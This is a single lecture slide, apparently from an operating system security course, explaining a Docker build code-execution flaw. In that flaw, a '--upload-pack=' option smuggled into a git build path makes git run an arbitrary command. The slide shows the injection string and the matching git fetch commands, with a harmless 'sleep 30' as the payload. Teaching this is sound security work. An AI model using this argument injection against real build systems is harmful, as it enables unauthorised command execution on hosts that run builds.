

# Docker build code execution
Utilize the git fetch command --upload-pack=<> to execute maclicous code

At Docker:

whatever command is put into the --upload-pack option will be executed.
This vulnerability can be exploited by a local attacker who can run docker build and can control the build path or a remote attacker who has the control over the build path.

| docker build "git@g.com/a/b#--upload-pack=sleep 30;: |
| --- |
| $ git init $ git remote add git@g.com/a/b $ git fetch origin "--upload-pack=sleep 30; git@g.com/a/b” |
| --- |
INSE 6130 OPERATING SYSTEM SECURITY
37